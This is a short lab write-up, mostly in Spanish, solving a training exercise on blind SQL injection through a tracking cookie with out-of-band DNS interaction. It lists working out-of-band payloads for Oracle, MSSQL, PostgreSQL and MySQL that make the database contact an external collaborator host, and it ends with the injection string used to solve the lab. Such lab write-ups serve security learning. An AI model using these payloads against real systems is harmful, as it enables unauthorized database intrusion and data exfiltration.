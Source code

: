 ## Lab: Blind SQL injection with out-of-band interaction

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

Esta es bien sencilla. Únicamente seleccionamos los diferentes tipos hasta que funcione . Ponemos la dirección de burpcollaborator y después de ejecutar descargamos... si hay una petición es esa sin pues probamos otra.

```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

la siguiente técnica funciona en instalaciones de Oracle con parches completos, pero requiere privilegios elevados:

```sql
#Oracle
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')

microsoft	

exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'

postgresql	

copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'

mysql	Las siguientes técnicas funcionan solo en Windows:

LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')

SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'
```

probamos oracle 
> cuidado con los paréntesis

' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://heztnyh9r33dob8zc0hm7xaiy94zso.burpcollaborator.net"> %remote;]>'),'/l') FROM dual)--

![](assets/2022-07-09-20-24-17.png)
